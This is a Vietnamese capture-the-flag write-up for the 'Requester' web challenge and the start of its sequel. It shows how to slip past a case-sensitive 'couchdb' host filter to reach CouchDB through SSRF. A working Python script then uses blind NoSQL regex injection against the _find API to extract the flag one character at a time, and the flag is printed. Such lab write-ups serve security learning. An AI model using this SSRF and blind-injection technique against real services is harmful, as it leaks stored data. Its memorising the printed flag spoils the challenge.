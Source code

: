 ### Solution
Thì đầu tiên ở đây chúng ta cần bypass được đoạn `urlURI.getHost().contains("couchdb")` và được biết flag được lưu trong couchdb nên vô docs của couchdb đọc và tìm thấy API `{db}/_find` [document](https://docs.couchdb.org/en/stable/api/database/find.html) => chúng ta có thể sử dụng `selector ` và regex để blind (nosql injection)
- Để bypass `couchdb` thì do hàm `.contains` chỉ đúng khi chuỗi đưa vào đúng 100% với chuỗi lọc => chúng ta chỉ cần thay một kí tự in ra trong couchdb thì có thế bypass.
- Dùng regex để blind các kí tự có trong flag. Nếu như kí tự đó đúng thì sẽ trả về 500.

### Payload
Step 1: tạo user thông qua `createUser` -> `https://requester.mc.ax/createUser?username=taidh&password=taidh`
Step 2: Mình đã viết 1 đoạn script để thực hiện việc blind này.
```py
import string
import requests
import json

url = 'https://requester.mc.ax/testAPI'
flag = ''

for i in range(1,50):
    for char in string.ascii_letters+string.digits+'{}_':
        print(char,end="\r")
        temp = flag + char
        params = {"url":"http://taidh1:taidh1@Couchdb:5984/taidh1/_find","method":"POST","data":json.dumps({"selector":{"flag":{"$regex":f"^{temp}"}}})}
        r = requests.get(url=url,params=params)
        # print(r.text)
        if "Something went wrong" in r.text:
            flag += char
            print(flag)
            break
```
Flag -> `flag{JaVA_tHE_GrEAteST_WeB_lANguAge_32154}`

## Challenge requester-strikes-back
Ở chall này thì follow code vẫn giống như bài Requester. Chỉ có một đoạn chỗ check host là được thay đổi và cách bypass của mình đã sài ở chall Requester không sài được ở bài này.
```java
if (urlURI.getHost().toLowerCase().contains("couchdb"))
        throw new ForbiddenResponse("Illegal!"); 
      String urlDecoded = URLDecoder.decode(url, StandardCharsets.UTF_8);
      urlURI = new URL(urlDecoded);
      if (urlURI.getHost().toLowerCase().contains("couchdb"))
        throw new ForbiddenResponse("Illegal!"); 
```
-> Lần này thì sẽ toLowerCase sau đó mới check, cũng như là chhặn luôn viện sử dụng unicode.
Vì ở chall Requester mình stuck khá lâu nên mình cứ nghĩ là sai ở chỗ check host nên mình cứ chăm chăm vào đó và thành ra tìm được cách vượt được check host của bài này luôn :)).
